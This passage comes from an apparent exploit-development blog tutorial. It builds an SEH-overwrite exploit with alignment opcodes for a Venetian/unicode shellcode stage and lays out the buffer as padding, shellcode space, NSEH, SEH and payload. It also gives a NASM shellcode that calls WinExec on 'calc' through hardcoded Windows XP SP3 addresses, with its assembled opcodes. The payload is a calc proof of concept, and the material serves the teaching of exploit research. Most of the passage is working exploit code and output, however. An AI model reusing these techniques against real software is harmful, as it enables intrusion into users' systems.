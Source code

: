 <pre>"\x53".         # push ebx              # put the address ebx on stack
"\x41".         # add byte ptr [ecx],al # align
"\x58".         # pop eax               # get address of ebx place in eax
"\x41".         # add byte ptr [ecx],al # align
"\x05\x01\x30". # add eax, 0x30000100   # align and add to eax
"\x41".         # add byte ptr [ecx],al # align
"\x2d\x03\x30". # sub eax, 0x30000300   # align and sub to eax dec by 200
"\x41".         # add byte ptr [ecx],al # align
"\x50".         # push eax              # push eax in stack
"\x41".         # add byte ptr [ecx],al # align
"\xc3";         # retn                  # call eax</pre>
&nbsp;

The image shows our instructions with nulls.

[![](http://www.greyhathacker.net/images/stcddebug.png)](http://www.greyhathacker.net/images/stcddebug.png)

So now our offsets are like this

[8 bytes] + [256 bytes for our unicode shellcode] + [NSEH] + [SEH] + [VENETIAN SHELLCODE]

256 bytes is still not a great deal of space for a decent piece of shellcode so I’m using a custom shellcode with hardcoded addresses. There are other ways like using an egghunter shellcode in this space and then placing shellcode somewhere in memory but for this POC exploit Im not using an egghunter shellcode.

Using the Netwide Assembler tools the assembled the code below outputs to file shellcalc.bin
<pre>&gt;nasmw -f bin -o shellcalc.bin shellcalc.asm</pre>
<pre>[BITS 32]
push byte 0
push dword "    "
push dword "calc"
mov  eax,esp
push eax
mov  eax,0x7c86250d   ; WinExec() WinXP SP3 kernel32.dll
call eax
xor  eax,eax
push eax
mov  eax,0x77c39e7e   ; exit() WinXP SP3 msvcrt.dll
call eax</pre>
&nbsp;

Once assembled we can disassemble shellcalc.bin to obtain our opcodes
<pre>&gt;ndisasmw shellcalc.bin -b 32</pre>
<pre>00000000  6A00              push byte +0x0
00000002  6820202020        push dword 0x20202020
00000007  6863616C63        push dword 0x636c6163
0000000C  89E0              mov eax,esp
0000000E  50                push eax
0000000F  B80D25867C        mov eax,0x7c86250d
00000014  FFD0              call eax
00000016  31C0              xor eax,eax
00000018  50                push eax
00000019  B87E9EC377        mov eax,0x77c39e7e
0000001E  FFD0              call eax</pre>
&nbsp;
